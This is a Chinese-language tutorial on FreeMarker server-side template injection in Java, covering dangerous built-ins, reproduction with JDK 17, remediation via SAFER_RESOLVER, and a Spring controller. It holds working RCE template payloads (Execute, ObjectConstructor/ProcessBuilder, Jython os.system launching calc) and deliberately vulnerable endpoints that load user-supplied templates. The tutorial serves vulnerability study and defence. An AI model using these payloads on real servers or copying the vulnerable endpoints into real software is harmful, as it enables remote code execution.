

# freemarker模版注入漏洞

## 模版注入漏洞根因（SSTI，服务器端模版注入）

由于模版内容部分或全部被外部控制，导致在模版加载或渲染到页面上时触发模版注入漏洞，模版注入漏洞一般可以造成RCE、敏感信息泄露和XSS，当模版被加载会触发RCE，当模版被渲染到页面上会触发敏感信息泄露和XSS。


## freemarker介绍

FreeMarker 是一款模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。

FreeMarker类似XSLT模版，XSLT原理=xsl模版+xml数据，而Freemarker原理=flt模板+datamode


FreeMarker模板文件主要由如下4个部分组成：

- （1）文本：直接输出的部分
- （2）注释：使用`<#-- ...-->`格式做注释，里面内容不会输出
- （3）插值：即`${...}`或`#{...}`格式的部分，类似于占位符，将使用数据模型中的部分替代输出
- （4）FTL指令：即FreeMarker指令，FTL标签和HTML标签有一些相似之处，但是它们是FreeMarker的指令，是不会在输出中打印的。 这些标签的名字以 `#` 开头，用户自定义的FTL标签则需要使用 `@` 来代替 `#`


## Freemarker模版注入漏洞关键点

- Freemarker注入的本质就是用户输入可以控制模版的内容，导致模版的结构发生改变。Freemarker的漏洞触发发生在两个地方，第一个就是模版被加载的时候，这个时候触发的是RCE，第二个就是内容被输出到页面后方位该页面的时候，这个时候触发的是XSS。

  FreeMarker内置函数：

  - new：可创建任意实现了`TemplateModel`接口的Java对象，同时还可以触发没有实现 `TemplateModel`接口的类的静态初始化块。可以调用new的危险类:

    | 危险类                                        | 说明                     |
    | --------------------------------------------- | ------------------------ |
    | freemarker.template.utility.JythonRuntime     | 需额外安装依赖，否则报错 |
    | freemarker.template.utility.Execute           | 自带                     |
    | freemarker.template.utility.ObjectConstructor | 自带                     |

  - API:value?api 提供对 value 的 API（通常是 Java API）的访问，由此可以使用危险的api函数

以下场景存在漏洞触发的风险：

- 模版能够被用户控制
- datamodel能够被用户控制


Freemarker大致代码如下：

```
Template template = configuration.getTemplate("freemarker_rce1.ftl");
Map map = new HashMap();
map.put("message", message);
Writer out = new FileWriter(TEMPLATE_PATH+"freemarker_rce1.html");
template.process(map, out);
```


两个场景中RCE在process调用时触发，xss在返回到页面时触发


有关于内置函数api：

（1）如果想要在模版中调用某个方法或对象，需要将其传入datamodel

添加datamodel：

```
map.put("object", new Object());
```

调用object：

```
<#assign uri=object?api.getClass()><p>${uri}</p>
```

getClass即object的方法

（2）从 FreeMarker 版本 2.3.22 开始使用TemplateModelWithAPISupport规定可以使用的model：

```
ArrayModel: 用于表示 Java 中的数组。
BeanModel: 用于表示 JavaBeans，提供对属性和方法的访问。
BooleanModel: 用于表示布尔值。
CollectionModel: 用于表示 Java 集合。
DateModel: 用于表示日期和时间。
DefaultEnumerationAdapter: 将 Enumeration 适配为模板模型。
DefaultIterableAdapter: 将实现了 Iterable 接口的对象适配为模板模型。
DefaultIteratorAdapter: 将 Iterator 适配为模板模型。
DefaultListAdapter: 将 Java 的 List 适配为模板模型。
DefaultMapAdapter: 将 Map 适配为模板模型。
DefaultNonListCollectionAdapter: 将非列表类型的集合适配为模板模型。
EnumerationModel: 用于表示枚举值。
IteratorModel: 用于表示迭代器。
MapModel: 用于表示映射表。
NumberModel: 用于表示数字。
ResourceBundleModel: 用于表示资源束。
SimpleMapModel: 用于表示简单的映射表。
StringModel: 用于表示字符串。
```

比如，由于支持BeanModel，我们可以定义一个java Bean，实例化后通过DataModel传入到模版中，就目前看来，还没找到适合漏洞利用的一些api，参考链接中提供的部分POC与jdk 17似乎并不太适配，后续再看。

另外还需要注意，支持以上Model的前提是`setAPIBuiltinEnabled(true)`，以下是代码逻辑：



## 漏洞复现

java中支持Freemarker的依赖有以下两种：

- spring boot：

  ```
  <dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-freemarker</artifactId>
  </dependency>
  ```

- maven自引

  ```
  <dependency>
      <groupId>org.freemarker</groupId>
      <artifactId>freemarker</artifactId>
      <version>2.3.32</version>
  </dependency>
  ```

- 如果还需要jpython

  ```
  <dependency>
  	<groupId>org.python</groupId>
  	<artifactId>jython-standalone</artifactId>
  	<version>2.7.2</version>
  </dependency>
  ```

  


### 环境

jdk 17 + Freemarker 2.3.32 + jpython 2.7.2


### 引入依赖

```
<dependency>
    <groupId>org.freemarker</groupId>
    <artifactId>freemarker</artifactId>
    <version>2.3.32</version>
</dependency>
<dependency>
	<groupId>org.python</groupId>
	<artifactId>jython-standalone</artifactId>
	<version>2.7.2</version>
</dependency>
```


### poc

模版内容示例：

```
<html>
<head>
    <meta charset="utf-8">
    <title>Freemarker rce</title>
</head>
<body>
<h3>
    show:${message}

<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}

  </h3>

</body>
</html>
```


（1）RCE

```
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}

<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("calc")}

<#assign ccc="freemarker.template.utility.Execute"?new()> ${ccc("calc")}

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc").start()}

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")
```

（2）XSS

插值注入，即向`${...}`或`#{...}`格式的部分注入xss脚本即可


## 修复方案


从 **2.3.17**版本以后，官方版本提供了三种TemplateClassResolver对类进行解析：

- UNRESTRICTED_RESOLVER：可以通过 `ClassUtil.forName(className)`获取任何类

- SAFER_RESOLVER：不能加载 `freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类。 

- ALLOWS_NOTHING_RESOLVER：不能解析任何类。

  

因此直接使用`configuration.setNewBuiltinClassResolver`设置为`SAFER_RESOLVER`或`ALLOWS_NOTHING_RESOLVER`即可，而对于危险内置函数api（api自2.3.22版本之后默认为false默认是关闭的），避免使用`configuration.setAPIBuiltinEnabled(true);`启用api即可


## 完整代码（包含修复）

```java
package com.example.demo.vulnerability.template;

import freemarker.cache.MultiTemplateLoader;
import freemarker.cache.StringTemplateLoader;
import freemarker.cache.TemplateLoader;
import freemarker.core.TemplateClassResolver;
import freemarker.template.Configuration;
import freemarker.template.Template;
import freemarker.template.TemplateException;
import freemarker.template.utility.JythonRuntime;
import org.python.util.PythonInterpreter;
import org.springframework.web.bind.annotation.*;
import java.io.*;
import java.net.URISyntaxException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


@RestController
public class FreeMarkerDemo {

    String TEMPLATE_PATH="C:\\code\\java\\demo\\demo\\src\\main\\resources\\static\\templates\\freemarker\\";
    //freemarker基本使用
    @GetMapping(value = "/template/freemarker")
    public void test() throws IOException, TemplateException {
        //1.创建配置类
        Configuration configuration = new Configuration(Configuration.getVersion());
        //2.设置模板所在的目录
        configuration.setDirectoryForTemplateLoading(new File(TEMPLATE_PATH));
        //3.设置字符集
        configuration.setDefaultEncoding("utf-8");
        //4.加载模板
        Template template = configuration.getTemplate("freemarker_xss.ftl");
        //5.创建数据模型
        Map map = new HashMap();
        map.put("name", "张三");
        map.put("message", "欢迎来到我的博客！");
        //6.创建Writer对象
        Writer out = new FileWriter(TEMPLATE_PATH+"freemarker.html");
        //7.输出
        template.process(map, out);
        //8.关闭Writer对象
        out.close();
    }

    //使用模版文件触发xss
    @GetMapping(value = "/template/freemarker/xss")
    public void xss(String name, String message) throws IOException, TemplateException {

        Configuration configuration = new Configuration(Configuration.getVersion());

        configuration.setDirectoryForTemplateLoading(new File(TEMPLATE_PATH));

        configuration.setDefaultEncoding("utf-8");

        Template template = configuration.getTemplate("freemarker_xss.ftl");
        if (name==null){
            name = "hello world";
        }
        if (message==null){
            message = "hello world";
        }
        Map map = new HashMap();
        map.put("name", name);
        map.put("message", message);

        Writer out = new FileWriter(TEMPLATE_PATH+"freemarker_xss.html");

        template.process(map, out);

        out.close();
    }

    //恶意模版文件被加载导致RCE
    @GetMapping(value = "/template/freemarker/rce1")
    public void rce1(String message) throws IOException, TemplateException {
        Configuration configuration = new Configuration(Configuration.getVersion());

        configuration.setDirectoryForTemplateLoading(new File(TEMPLATE_PATH));

        configuration.setDefaultEncoding("utf-8");

        configuration.setAPIBuiltinEnabled(true);

        Template template = configuration.getTemplate("freemarker_rce1.ftl");
        if (message==null){
            message = "hello world";
        }
        Map map = new HashMap();
        map.put("message", message);

        Writer out = new FileWriter(TEMPLATE_PATH+"freemarker_rce1.html");

        template.process(map, out);

        out.close();

    }

    //用户输入直接修改模版内容
    @PostMapping(value = "/template/freemarker/rce2")
    public void rce2(String content) throws IOException, TemplateException {
        Configuration configuration = new Configuration(Configuration.DEFAULT_INCOMPATIBLE_IMPROVEMENTS);

        configuration.setDirectoryForTemplateLoading(new File(TEMPLATE_PATH));

        configuration.setDefaultEncoding("utf-8");

        //启用内置函数api，函数new默认是可以使用的，无需手动启用
        configuration.setAPIBuiltinEnabled(true);

        StringTemplateLoader stringLoader = new StringTemplateLoader();
        stringLoader.putTemplate("freemarker_rce2.ftl", content);
        configuration.setTemplateLoader(new MultiTemplateLoader(new TemplateLoader[]{stringLoader,
                configuration.getTemplateLoader()}));

        Template template = configuration.getTemplate("freemarker_rce2.ftl");

        Map map = new HashMap();

        map.put("object", new Object());
        map.put("file",new String(Files.readAllBytes(Paths.get("C:\\code\\java\\demo\\demo\\src\\main\\resources\\application.properties"))));

        Writer out = new FileWriter(TEMPLATE_PATH+"freemarker_rce2.html");
        template.process(map, out);

        out.close();


    }

    //修复
    @GetMapping(value = "/template/freemarker/repair1")
    public void repair1(String message) throws IOException, TemplateException {
        Configuration configuration = new Configuration(Configuration.getVersion());

        configuration.setDirectoryForTemplateLoading(new File(TEMPLATE_PATH));

        configuration.setDefaultEncoding("utf-8");

        Template template = configuration.getTemplate("freemarker_rce1.ftl");

        //禁止使用ObjectConstructor和Execute，另外api自2.3.22版本之后默认为false默认是关闭的
        //2.3.17版本开始可以设置此配置，
        configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
        if (message==null){
            message = "hello world";
        }
        Map map = new HashMap();
        map.put("message", message);

        Writer out = new FileWriter(new File(TEMPLATE_PATH+"freemarker_rce.html"));
        try{
            template.process(map, out);
        }catch (Exception e){
            System.out.println(e);
        }

        out.close();
    }

    public static void main(String[] args) throws URISyntaxException, IOException {
        //jython测试
//        PythonInterpreter interpreter = new PythonInterpreter();
        PythonInterpreter interpreter = new JythonRuntime();
//        new JythonRuntime();
        // 可以设置变量供 Python 脚本使用
        interpreter.set("myVar", "Hello, World!");

        // 执行 Python 脚本
        try {
            interpreter.exec("import os;os.system(\"calc\")");
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}
```


## 参考

- [渗透测试XSLT - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/332254.html)
- [Java安全之freemarker 模板注入 - nice_0e3 - 博客园 (cnblogs.com)](https://www.cnblogs.com/nice0e3/p/16217471.html)